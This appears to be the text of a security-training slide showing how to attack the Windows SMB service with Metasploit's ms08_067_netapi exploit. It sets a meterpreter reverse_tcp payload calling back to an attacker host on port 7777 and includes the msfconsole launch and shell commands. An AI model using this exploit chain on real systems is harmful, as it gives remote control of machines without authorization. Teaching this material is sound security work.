

Attacking the Windows SMB Service with Metasploit
To utilize Metasploit's attack, we first chose our exploit (exploit/windows/ smb/ms08_067_netapi) and then set the target to 192.168.1.37.

Following target selection, we indicated the payload as windows/meterpreter/reverse_tcp and selected a reverse connection to our host at 192.168.77.77 on port 7777. Finally, we told Metasploit to exploit the system. Saving the configuration file to the filename conficker.rc, we can now launch our attack by issuing the command msfconsole -r conficker.rc.

This command will tell Metasploit to launch with the conficker.rc configuration file. When successful, our attack returns a Windows command shell to control the machine.
attackers msfconsole -r conficker.rc
meterpreter> execute –I –f cmd.exe